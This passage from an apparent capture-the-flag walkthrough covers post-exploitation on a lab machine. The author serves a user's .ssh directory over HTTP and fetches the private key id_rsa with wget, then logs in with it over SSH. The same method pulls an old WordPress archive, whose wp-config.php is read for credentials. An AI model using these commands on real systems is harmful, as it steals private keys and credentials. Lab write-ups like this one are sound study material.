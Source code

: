 I'll copy it over to my local machine. I'll just put up a temporary http-server in the .ssh directory.

```
remote:
python3 -m http.server 12345
local:
wget http://10.10.122.62:12345/id_rsa
```

![image](Images/smol11.png)

So now we have the users private key. So we should be able to log in to the ssh service now. Just remember to make sure the key has the right permissions.

```
chmod 600 id_rsa
ssh <user>@10.10.122.62 -i id_rsa
```

And we're in.

# getting root

So now we're almost there. This is where I accidentally found out that I was able to su into another user without password. And here we found an old wordpress archive in their home directory. Might be worth checking out if we find anything interesting there. I'll download it locally by making another server with python3.

```
remote:
python3 -m http.server 1234
local:
wget http://10.10.122.62:1234/wordpress.old.zip
```

So now that we have it stored locally, let's unzip it and view it's contents.

```
unzip wordpress.old.zip
```

Where in the installation that was live did we find the credentials? In the wp-config.php. So why not check it out in this old installation?

```
cat wordpress.old/wp-config.php
```
